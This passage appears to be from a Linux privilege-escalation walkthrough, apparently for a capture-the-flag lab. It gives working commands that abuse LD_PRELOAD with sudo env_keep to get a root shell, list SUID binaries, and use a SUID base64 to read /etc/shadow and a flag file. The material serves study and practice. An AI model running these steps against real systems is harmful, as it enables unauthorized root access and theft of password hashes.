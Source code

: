 Compile the `shell.c` file into a shared object file using `gcc` with the following command:

```sh
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

## Execute the Shared Object with Sudo

Run any program that your user can execute with sudo, using the LD_PRELOAD environment variable to specify the path to the shared object file:

```sh
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```

This command will result in a shell spawn with root privileges.

## Summary

1. **Check for LD_PRELOAD with env_keep:**
   - Verify the sudoers configuration for the env_keep option.
2. **Write C Code:**
   - Create a file `shell.c` with the provided code.
3. **Compile C Code:**
   - Use `gcc` to compile `shell.c` into `shell.so`.
4. **Run Program with Sudo:**
   - Execute a program with sudo, specifying the LD_PRELOAD variable.

By following these steps, you can leverage LD_PRELOAD to escalate privileges on a system where the env_keep option is enabled.

### SUID and SGID BIT
- `find / -type f -perm -04000 -ls 2>/dev/null`
- This command will check which files has suid bit

- Then check any files and find its shell.

#### Tips 
- Suppose you want to find the vulnerabilities in base64
- From `GITFOBINS` you can find its exploit

```sh
sudo install -m =xs $(which base64) .

LFILE=file_to_read
./base64 "$LFILE" | base64 --decode
```
- For this we have to change some file names
```sh
LFILE=/etc/shadow
/usr/bin/base64 "$LFILE" | base64 --decode
```
- This will give us the normal user permission
- Even we can see the elements of a file which has the root permission via this commands
```sh
LFILE=/home/ubuntu/flag3.txt
/usr/bin/base64 "$LFILE" | base64 --decode
```
